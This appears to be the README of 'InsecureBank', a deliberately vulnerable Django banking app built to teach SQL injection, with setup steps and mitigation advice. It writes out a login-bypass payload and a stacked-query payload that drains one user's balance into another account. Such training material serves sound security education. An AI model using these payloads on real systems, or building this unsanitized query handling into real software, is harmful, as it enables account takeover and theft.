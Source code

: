 # SQL Injection - InsecureBank

## Overview
**InsecureBank** is a vulnerable web application designed to demonstrate SQL injection attacks in a real-world banking scenario. The project highlights how unsanitized input fields can be exploited to manipulate backend databases, emphasizing the importance of secure coding practices.

## Features
- Demonstrates both **simple** and **complex** SQL injection techniques.
- Allows execution of **multiple SQL statements** in one request.
- Built with **Django** and runs using **Docker** for easy deployment.

## Technologies Used
- **Python (Django Framework)**
- **SQLite Database**
- **Docker** (for containerized deployment)

---

## How SQL Injection Works
A form input is vulnerable to SQL injection when it does not sanitize user inputs before executing SQL queries. Depending on how queries are executed, attackers may exploit:
1. **Boolean-based SQL injection** (modifying query logic using `AND` / `OR` conditions).
2. **Union-based SQL injection** (retrieving hidden data via `UNION SELECT`).
3. **Error-based SQL injection** (leveraging error messages for database insights).
4. **Time-based SQL injection** (detecting vulnerabilities via response delays).

This demo has been intentionally made as **vulnerable as possible** by allowing execution of **multiple SQL statements** in one request.

---

## Installation and Setup

### Running via Docker (Recommended)
```sh
docker build -t insecurebank .
docker run -p 8000:8000 insecurebank
```
Access the application at: [http://localhost:8000](http://localhost:8000)

### Running without Docker
```sh
python3 manage.py runserver
```
Access the application at: [http://localhost:8000](http://localhost:8000)

---

## SQL Injection Examples

### **Basic SQL Injection (Bypassing Login)**
By entering the following into the **username** field, an attacker can bypass authentication:
```sql
' OR '1'='1
```
This works because `'1'='1'` is always **true**, allowing unauthorized access.

### **Complex SQL Injection (Fund Transfer Exploit)**
This payload transfers money from **user: demo** to **user: hackerman**:
```sql
'; UPDATE bank_bankaccount
SET balance = balance + (SELECT balance FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'))
WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman');

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman')),
  (SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'All of demo user\'s money!',
  'Deposit',
  '0'
);

UPDATE bank_bankaccount
SET balance = 0
WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo');
```

---

## Security Mitigation Strategies
To prevent SQL injection, developers should:
- **Use prepared statements and parameterized queries** (e.g., `cursor.execute(query, params)`).
- **Sanitize and validate user input** before processing queries.
- **Implement web application firewalls (WAF)** to filter malicious input.
- **Limit database permissions** to minimize the impact of an attack.
- **Use ORM frameworks** like Django ORM to abstract raw SQL execution.

---

## Disclaimer
This project is for **educational and research purposes only**. Do not use it to target real applications. The author is **not responsible** for any misuse of this information.

---

## License
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

---


